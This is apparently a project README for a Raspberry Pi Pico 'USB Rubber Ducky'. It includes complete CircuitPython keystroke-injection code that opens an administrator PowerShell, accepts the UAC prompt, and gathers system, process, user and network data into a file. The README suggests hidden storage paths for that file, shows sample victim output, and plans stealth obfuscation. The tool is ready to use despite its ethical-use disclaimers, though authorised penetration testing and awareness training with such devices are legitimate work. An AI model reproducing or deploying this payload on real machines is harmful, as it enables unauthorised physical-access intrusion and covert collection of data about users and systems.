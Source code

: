 # 🛠️ Project: Offline USB Rubber Ducky with Raspberry Pi Pico

## Overview

This project aims to create an **offline USB Rubber Ducky** using a Raspberry Pi Pico. When connected to a computer, the device emulates a keyboard and automatically collects essential system information, saving it locally for later analysis—no internet connection required.

> **Disclaimer:** This project is intended for educational purposes and controlled, ethical hacking environments only. Do not deploy on systems without explicit authorization.

---

## What is a USB Rubber Ducky?

A [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky) is a device that mimics a USB keyboard, allowing it to inject keystrokes and execute commands automatically when plugged into a target machine. It's widely used by penetration testers and security professionals to demonstrate the risks of physical access attacks.

---

## Features

- **Hardware:** Raspberry Pi Pico microcontroller
- **Firmware:** CircuitPython
- **Libraries:** [Adafruit CircuitPython HID](https://github.com/adafruit/Adafruit_CircuitPython_HID)
- **Payload:** PowerShell script for information gathering
- **Base Project:** Forked and adapted from [`pico-ducky`](https://github.com/dbisu/pico-ducky) by [dbisu](https://github.com/dbisu)

---

## How It Works

Upon connection to a Windows PC:

1. The Pico emulates a USB keyboard (HID).
2. Opens PowerShell with administrator privileges.
3. Executes several commands to gather:
    - System information (`Get-ComputerInfo`)
    - Active processes (`Get-Process`)
    - Local user accounts (`Get-LocalUser`)
    - Network connections (`Get-NetTCPConnection`)
4. Saves the collected data as `audit.txt` on the Desktop (or alternative hidden locations).

**Alternative Storage Paths:**
```powershell
$out = "$env:APPDATA\Microsoft\Windows\Recent\syscache.txt"
# or
$out = "C:\ProgramData\sysinfo.log"
```

---

## CircuitPython Example Code

```python
import time
import board
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode

keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

time.sleep(3)  # Wait for the host to be ready

# Open Run dialog
keyboard.press(Keycode.GUI, Keycode.R)
keyboard.release_all()
time.sleep(0.5)

# Launch PowerShell
layout.write("powershell\n")
time.sleep(1)

# Request admin privileges
keyboard.press(Keycode.CONTROL, Keycode.SHIFT, Keycode.ENTER)
keyboard.release_all()
time.sleep(1.2)

# Accept UAC prompt (may require language/layout adjustment)
keyboard.press(Keycode.ALT, Keycode.Y)
keyboard.release_all()
time.sleep(0.8)

# PowerShell payload
payload = (
    '$out = "$env:USERPROFILE\\Desktop\\audit.txt"; '
    'Get-ComputerInfo | Out-File $out; '
    'Get-Process | Out-File $out -Append; '
    'Get-LocalUser | Out-File $out -Append; '
    'Get-NetTCPConnection | Out-File $out -Append'
)

layout.write(payload + '\n')
time.sleep(1)
layout.write("exit\n")
```

---

## Sample Output

```
ComputerName           : VICTIM-PC
OSName                 : Microsoft Windows 10 Pro
SystemType             : x64-based PC
Username               : VICTIM\user
...
--- Process List ---
Name                  ID          CPU
------------------   ----------  ----
explorer.exe         1234        3.2
chrome.exe           4567        7.8

--- Users ---
Name                 Enabled
------------------   -------
Admin                True
Guest                False
```

---

## Ethical Considerations

This project demonstrates the importance of physical security and awareness of USB-based attacks. Use responsibly for:

- Security awareness training
- Penetration testing (with permission)
- Cybersecurity labs and demonstrations

> **Warning:** Unauthorized use of this tool is illegal and unethical. Always obtain explicit permission before testing any system.

---

## Roadmap

- Support for multiple, selectable payloads (via physical button)
- Screenshot and clipboard capture functionalities
- Command obfuscation for stealthier payloads
- Automatic system language detection (keyboard layout adaptation)

---

## Conclusion

This project showcases how affordable microcontrollers like the Raspberry Pi Pico can automate complex, real-world security assessments. Properly used, it’s a powerful tool for learning, teaching, and raising awareness about the dangers of physical access and USB attacks.

---
